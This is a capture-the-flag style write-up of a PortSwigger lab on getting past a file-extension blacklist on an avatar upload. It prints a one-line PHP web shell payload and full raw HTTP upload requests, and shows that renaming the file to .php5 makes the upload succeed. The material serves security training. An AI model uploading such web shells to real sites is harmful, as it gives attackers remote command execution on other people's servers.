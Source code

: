 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ebebf5e5-90e1-448c-9065-38df9a33c893)

## Overview :

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like .php. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on. 

## Solution :

Login as wiener to access the upload functionality.

Upload a **.php** file with the following payload `<?php echo system($_GET['command']); ?>`.`

THe request sent is as follows,

```html
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Cookie: session=GnGAzOUPjzGgNytcTKzcIplgL1T4H38L
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------35474142021105913272615045188
Content-Length: 524
Origin: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Referer: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```


We get an error response stating that **.php files are not allowed to be uploaded.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d92c9ee8-25ee-4fd9-9930-f7254289b044)

This is maybe because in the body of the request we have a `filename="file.php" parameter`. From this we may assume that the server identifies it as a **.php file extension**  and rejects the upload request.

### Byassing the extension bypass -

In the same request we can give other types of php like **php5/php4** etc..,

Modify the **filename=** parameter with the filename extension as **.php5**.

```
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
.
.
.
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php5"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```
This time we get _file successfully uploaded_ message in the response response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/90e0c5b1-161c-4cd5-8805-47a98a6cff26)


